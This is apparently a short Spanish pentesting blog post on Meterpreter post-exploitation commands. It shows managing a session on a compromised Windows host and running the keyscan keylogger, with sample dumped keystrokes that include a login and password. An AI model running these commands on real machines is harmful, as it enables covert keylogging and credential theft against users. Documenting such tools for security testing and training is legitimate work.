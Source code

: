 Title: meterpreter
Date: 2015-09-8 14:09
Modified: 2015-09-8 14:09
Category: Pentesting
Tags: meterpreter
Slug: meterpreter
Authors: procamora
Summary:

background <Core>
Permite establecer el proceso de la consola meterpreter a un proceso “demonio” con lo que posteriormente permitirá volver al contexto de ejecución anterior a la obtención de la consola, eventualmente se puede volver a activar este proceso por medio del comando sesión:

`meterpreter > background`


```
msf exploit(handler) > sessions -l

Active sessions

===============

Id Type Information Connection



1 meterpreter x86/win32 OWNER\Owner @ OWNER 192.168.1.33:443 -> 192.168.1.34:1091

msf exploit(handler) > sessions -i 1

[\*] Starting interaction with 1…

meterpreter >
```

keyscan <Stdapi User Interface Commands>
Con esta utilidad es posible saber que ha digitado el usuario en su maquina, de esta se obtiene fácilmente, claves, usuarios, direcciones, mensajes, etc.

Su uso:

meterpreter > keyscan_start

Starting the keystroke sniffer…

Con esto se ha iniciado el keylogger, posteriormente para consultar lo que se digitado:
meterpreter > keyscan_dump

Dumping captured keystrokes…

<Ctrl> <LCtrl> t <Ctrl> <LCtrl> l <Esc> gmail.com <Return> usuario<Tab> passSuperSegura <Return>

Finalmente para detener el servicio basta con:

meterpreter > keyscan_stop
